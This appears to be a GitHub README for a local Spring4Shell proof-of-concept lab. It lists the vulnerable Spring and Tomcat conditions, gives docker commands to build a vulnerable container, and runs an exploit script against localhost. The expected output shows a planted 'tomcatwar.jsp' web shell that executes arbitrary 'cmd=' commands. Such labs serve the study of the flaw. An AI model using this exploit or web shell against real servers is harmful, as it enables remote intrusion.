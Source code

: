 # Spring4shell RCE vulnerability

This vulnerability affects Spring Core and allows an attacker to send a specially crafted HTTP request to bypass protections in the library’s HTTP request parser, leading to remote code execution.

Read more [Here](https://www.datadoghq.com/blog/spring4shell-vulnerability-overview-and-remediation/)

![](./screenshot.png)

In order for this vulnerability to be exploited, several conditions must be met
* Use JDK 9 or higher
* Have Apache Tomcat as the servlet container
* Be packaged as a traditional WAR (in contrast to a Spring Boot executable jar)
* Use the spring-webmvc or spring-webflux dependency
* Use Spring framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, or older versions


## Running the application

* Build the docker image

```
docker build . -t springshell-rce-poc
```

* Run the docker container

```
docker run --rm -p 8085:8080 --name springshell-rce-poc springshell-rce-poc
```


## Exploitation steps

```
python exploit-poc.py --url "http://127.0.0.1:8085/"
```
The expected response

```
exploiting
Shell URL:http://127.0.0.1:8085/tomcatwar.jsp?pwd=j&cmd=whoami
```

If you accessed this url, it will run whatever command you want `cmd=<whatyouwant>`

![](./exploit.png)

If you ssh the container you will see a new file has been created `tomcatwar.jsp`

```
docker exec -it springshell-rce-poc /bin/bash
ls /usr/local/tomcat/webapps/ROOT
```